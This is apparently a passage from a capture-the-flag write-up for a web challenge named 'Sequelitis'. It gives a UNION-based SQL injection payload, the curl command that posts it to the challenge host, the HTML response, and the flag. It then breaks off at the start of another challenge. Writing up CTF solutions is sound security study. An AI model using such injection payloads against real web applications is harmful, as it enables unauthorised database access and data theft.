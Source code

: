     payload = first_name=' OR false UNION SELECT *,1,2 from flag limit 0,1-- -

```html
curl -X POST http://jh2i.com:50034/ --data "first_name=' OR false UNION SELECT *,1,2 from flag limit 0,1-- -"

<html>
 <head>
 </head>
 <body>
 <h1>Sequelitis</h1>

<h3> Customer Query </h3>

<form method="POST" action="#">

	<p>
	First Name:
	</p>
	<p>
		<input type="text" name="first_name" placeholder="John">
	</p>
	<p><input type="submit" value="Submit"></p>

</form>

<hr> <!-- ..................................................... -->

<h3> Results </h3>

<pre>
Customers returned are:

JHDCTF{explicit_sqli_is_how_sql_will_die 1: 2

</pre>
</body>
</html>%
```

    Flag = JHDCTF{explicit_sqli_is_how_sql_will_die}

## nbsp;
## GET Encoded
```
125
I don't GET this%21 Do you%3F

Connect here: http://jh2i.com:50013
```
